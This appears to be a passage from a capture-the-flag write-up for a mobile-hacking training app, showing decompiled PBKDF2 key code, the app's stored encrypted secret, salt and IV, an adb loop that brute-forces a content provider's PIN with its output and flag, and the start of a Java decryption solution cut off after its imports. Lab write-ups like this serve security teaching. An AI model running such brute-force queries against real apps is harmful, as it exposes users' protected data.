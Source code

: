 ```java
        }
    }
```

```java
private final byte[] generateKeyFromPin(String pin) {
        char[] charArray = pin.toCharArray();
        Intrinsics.checkNotNullExpressionValue(charArray, "this as java.lang.String).toCharArray()");
        byte[] bArr = this.salt;
        if (bArr == null) {
            Intrinsics.throwUninitializedPropertyAccessException("salt");
            bArr = null;
        }
        PBEKeySpec keySpec = new PBEKeySpec(charArray, bArr, this.iterationCount, 256);
        SecretKeyFactory keyFactory = SecretKeyFactory.getInstance("PBKDF2WithHmacSHA1");
        byte[] encoded = keyFactory.generateSecret(keySpec).getEncoded();
        Intrinsics.checkNotNullExpressionValue(encoded, "getEncoded(...)");
        return encoded;
    }
```

File: `assets/config.properties`

```
encryptedSecret=bTjBHijMAVQX+CoyFbDPJXRUSHcTyzGaie3OgVqvK5w=
salt=m2UvPXkvte7fygEeMr0WUg==
iv=L15Je6YfY5owgIckR9R3DQ==
iterationCount=10000
```

## Bruteforce Solution

### Dynamic: adb

We can emulate an application sending a content query using adb as follows:

```bash
for i in `seq 1000 10000`; do echo -n "$i : " && adb shell content query --uri "content://com.mobilehackinglab.securenotes.secretprovider" --projection "Secret" --where "pin=$i" ; done
```

Results:

```
2578 : No result found.
2579 : No result found.
2580 : Row: 0 Secret=CTF{D1d_y0u_gu3ss_1t!1?}
2581 : No result found.
2582 : No result found.
```

### Static: Java

```java
import java.security.NoSuchAlgorithmException;
import java.security.spec.InvalidKeySpecException;
import javax.crypto.Cipher;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.PBEKeySpec;
import javax.crypto.spec.SecretKeySpec;
import java.util.Base64;
import java.nio.charset.StandardCharsets;
import javax.crypto.NoSuchPaddingException;
import java.security.InvalidKeyException;
import java.security.InvalidAlgorithmParameterException;
```